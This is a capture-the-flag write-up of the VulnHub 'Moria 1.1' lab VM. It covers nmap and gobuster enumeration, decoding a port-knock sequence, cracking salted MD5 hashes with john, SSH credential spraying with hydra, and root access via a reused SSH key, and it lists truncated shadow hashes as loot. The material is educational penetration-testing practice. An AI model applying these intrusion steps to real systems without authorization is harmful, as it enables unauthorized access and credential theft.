

# [[VulnHub] Moria: 1.1](https://www.vulnhub.com/entry/moria-11,187/)

**Date**: 17/Oct/2019  
**Categories**: [oscp](https://github.com/7h3rAm/writeups/search?q=oscp&unscoped_q=oscp), [vulnhub](https://github.com/7h3rAm/writeups/search?q=vulnhub&unscoped_q=vulnhub), [linux](https://github.com/7h3rAm/writeups/search?q=linux&unscoped_q=linux)  
**Tags**: [`privesc_ssh_knownhosts`](https://github.com/7h3rAm/writeups#privesc_ssh_knownhosts)  

## Overview
This is a writeup for VulnHub VM [`Moria: 1.1`](https://www.vulnhub.com/entry/moria-1,187/). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:





\newpage
## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
``` {.python .numberLines}
# Nmap 7.70 scan initiated Fri Oct 11 15:31:50 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/vulnhub.moria11/results/192.168.92.188/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/vulnhub.moria11/results/192.168.92.188/scans/xml/_quick_tcp_nmap.xml 192.168.92.188
Nmap scan report for 192.168.92.188
Host is up, received arp-response (0.0019s latency).
Scanned at 2019-10-11 15:32:02 PDT for 15s
Not shown: 997 closed ports
Reason: 997 resets
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 2.0.8 or later
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 6.6.1 (protocol 2.0)
| ssh-hostkey:
|   2048 47:b5:ed:e3:f9:ad:96:88:c0:f2:83:23:7f:a3:d3:4f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC5gdKNO3UCeDGX36RIZSkcVHvWknoFBZe2IT96Gep79sECS7G2pO76RFdOCJMru0Ek9EQKhMhHTrVI0DWDJFp2apdEPVsqn8nuJKUCHbaL49frQtFnR64b5WoM+f7VgEN84S+iPmUCwwgIMjR5hoYCAJFdJNpE27ZguVbnnN+i1491TDIO/cN92Uut/T70C3bntlsptY9N+fR0hOdkLg+K+TT1zX2BZOw99OMn9ytt3kSi4DNaoDpn9GDOfXhqeQH/eJWmFNTsFSM2+GHOAZKc0Ichiqhxf3WHoGOnliH8XdV6ZNpjHA8jGCYVcPnkTk42nP7E9Ql7mabsi+L3Ugq3
|   256 85:cd:a2:d8:bb:85:f6:0f:4e:ae:8c:aa:73:52:ec:63 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCuLX/CWxsOhekXJRxQqQH/Yx0SD+XgUpmlmWN1Y8cvmCYJslOh4vE+I6fmMwCdBfi4W061RmFc+vMALlQUYNz0=
|   256 b1:77:7e:08:b3:a0:84:f8:f4:5d:f9:8e:d5:85:b9:34 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILxa4UjJJ2naeaBginolO5UHAS/rB0Wh5mtDLQuNUYaN
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Gates of Moria
MAC Address: 00:0C:29:84:7D:D1 (VMware)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct 11 15:32:18 2019 -- 1 IP address (1 host up) scanned in 28.21 seconds

```

2\. We find a possible username from FTP banner:  
``` {.python .numberLines}
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 2.0.8 or later
|_banner: 220 Welcome Balrog!

```

3\. We find a few interesting directories from `gobuster` scan. Exploring the `http://192.168.92.188:80/w` link, we follow it till the `http://192.168.92.188/w/h/i/s/p/e/r/the_abyss/` link which shows some random text:  
``` {.python .numberLines}
http://192.168.92.188:80/cgi-bin/ (Status: 403) [Size: 210]
http://192.168.92.188:80/cgi-bin/.html (Status: 403) [Size: 215]
http://192.168.92.188:80/index.php (Status: 200) [Size: 85]
http://192.168.92.188:80/index.php (Status: 200) [Size: 85]
http://192.168.92.188:80/w (Status: 301)
http://192.168.92.188/w/h/i/s/p/e/r/the_abyss/

```

  

  

4\. This link shows text that seems to be hinting towards port knocking, but we don't know the ports to knock on. Upon further exploration, it seems one of the text also hints towards `listening` or sniffing that could prove useful:  

  

5\. We run `wireshark` with a display filter `ip.addr == 192.168.92.188` to limit noise. In some time we see a bunch of `SYN` packets being sent to us from the target system. These packets are sent to following ports: `77, 101, 108, 108, 111, 110`  

  

6\. We try to knock these ports on the target system but nothing changed. Upon further exploration, it is found that the sequence actually is the ASCII values for a string `Mellon` that could be the password for the only known username we have as of now: `Balrog`  
``` {.python .numberLines}
nmap -Pn --host-timeout 100 --max-retries 0 -sS -p 77, 101, 108, 108, 111, 110
python -c 'print "".join([chr(x) for x in [77, 101, 108, 108, 111, 110]])'
  Mellon

```

  

  

7\. We tried to connect to FTP service with the `Balrog/Mellon` credentials but for some reason it didn't work:  
``` {.python .numberLines}
ftp 192.168.92.188
  Balrog
  Mellon

```

  

8\. From public writeups we find that the FTP user has access to the web root directory and this directory has an interesting file: `http://192.168.92.188/QlVraKW4fbIkXau9zkAPNGzviT3UKntl`  

  

  

9\. This file lists several usernames and what looks like password hashes. The page source also reveals the password salts and hash format as `MD5(MD5(Password).Salt)`. We find a good [reference](https://github.com/piyushcse29/john-the-ripper/blob/master/doc/DYNAMIC) for `john`'s dynamic hash variants. We create a `hashes` file by adding usernames, hashes and salts to it. We can now use `john` to crack these hashes:  
``` {.python .numberLines}
john --format=dynamic_6 hashes

```

  


### Findings
#### Open Ports:
``` {.python .numberLines}
21/tcp  |  ftp   |  vsftpd 2.0.8 or later
22/tcp  |  ssh   |  OpenSSH 6.6.1 (protocol 2.0)
80/tcp  |  http  |  Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
```
#### Files
``` {.python .numberLines}
http://192.168.92.188/QlVraKW4fbIkXau9zkAPNGzviT3UKntl
```
#### Users
``` {.python .numberLines}
ftp: Balrog
```

\newpage
## Phase #2: Exploitation
1\. We are able to successfully crack hashes for all users from this list and can now use `hydra` to check which username/password combo actually works. We find that the `Ori/spanky` credentials allow us SSH access to the target system:  
``` {.python .numberLines}
hydra -C creds 192.168.92.188 -t 4 ssh
ssh Ori@192.168.92.188

```

  

  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
Ori@Moria> id
uid=1002(Ori) gid=1003(notBalrog) groups=1003(notBalrog)
Ori@Moria>  
Ori@Moria> uname
Linux Moria 3.10.0-514.el7.x86_64 #1 SMP Tue Nov 22 16:42:41 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
Ori@Moria>  
Ori@Moria> ifconfig
ens33:  flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.92.188  netmask 255.255.255.0  broadcast 192.168.92.255
        inet6 fe80::deef:db78:6f77:ebdf  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:84:7d:d1  txqueuelen 1000  (Ethernet)
        RX packets 125  bytes 13540 (13.2 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 87  bytes 11999 (11.7 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
Ori@Moria>  
Ori@Moria> users
abatchy
Balrog
Ori
```

\newpage
## Phase #3: Privilege Escalation
1\. We find that the user `Ori` has an entry for `localhost` within the `.ssh/known_hosts` file. This means, if local SSH configuration allows `root` user login and user `Ori`'s public key is in the `authorized_keys` of `root` user, we can SSH as `root` to localhost using `Ori`'s public key:  
``` {.python .numberLines}
ssh -i id_rsa root@192.168.92.188

```

  

  

2\. We gain elevated access using the above technqiue and can now view the flag to complete the challenge:  
``` {.python .numberLines}
cat /root/flag.txt

```

  


\newpage

## Loot
### Hashes
``` {.python .numberLines}
root:$6$P7ElNgGp$fNzyy4OgqSR1ANJXTgbpzp4U42JXG1qJ55iNV10NVJoX5UWjtckWD0oHmcTOj0lqObyWhFu2y3udHVpHa........................
abatchy:$6$xEq/159Q$ScuKnynbwTBdFA4B9w6OqKxQpWPGpofi59McVuP6T1SADKhNy4n33Ovkk0hwZQkx72XriPSIrc2ubr16O........................
Balrog:$6$J6kuCfxq$L5ALsHRYfOu0bVV9MbW3.VZOUVEaKSWhfPIq5wXUFV407tpvH8Zx7WdbJeXgdWoPo9LU8eIznf0d44qoF........................
Ori:$6$1zYgjEIM$VQ0gvU7JjenS9WuiVjSeva8pbWnEXjqTmEdFnQRXKmTmXPXmt55/oyup40NiXD8J9GxmXF7DYiaHZDRshr.......................
```
### Credentials
``` {.python .numberLines}
ftp: Balrog/Mel...
ssh: Ori/span..
```

## References
[+] <https://www.vulnhub.com/entry/moria-11,187/>  
[+] <https://phackt.com/moria-vulnhub>  
